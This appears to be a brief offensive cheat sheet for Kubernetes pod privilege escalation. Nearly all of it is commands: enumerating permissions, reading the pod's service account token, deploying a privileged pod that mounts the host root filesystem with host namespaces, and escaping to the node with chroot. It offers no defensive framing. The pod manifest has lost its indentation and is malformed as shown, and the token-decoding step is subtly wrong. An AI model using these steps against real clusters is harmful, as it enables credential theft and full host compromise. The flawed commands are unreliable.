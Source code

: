 # Pod Privilege Escalation

#### 1)  Enumerating current permissions

    kubectl auth can-i --list

#### 2)  Stealing service account tokens

    TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
    echo $TOKEN | base64 -d

#### 3) Creating a privileged breakout pod

    kubectl apply -f - <<EOF
    apiVersion: v1
    kind: Pod
    metadata:
    name: breakout-pod
    spec:
    hostNetwork: true
    hostPID: true
    hostIPC: true
    containers:
    - name: breakout
    image: alpine
    command: ["/bin/sh"]
    stdin: true
    tty: true
    securityContext:
    privileged: true
    volumeMounts:
    - name: host-root
    mountPath: /host
    volumes:
    - name: host-root
    hostPath:
    path: /
    EOF

#### 4) Escaping to the host system

    kubectl exec -it breakout-pod -- chroot /host
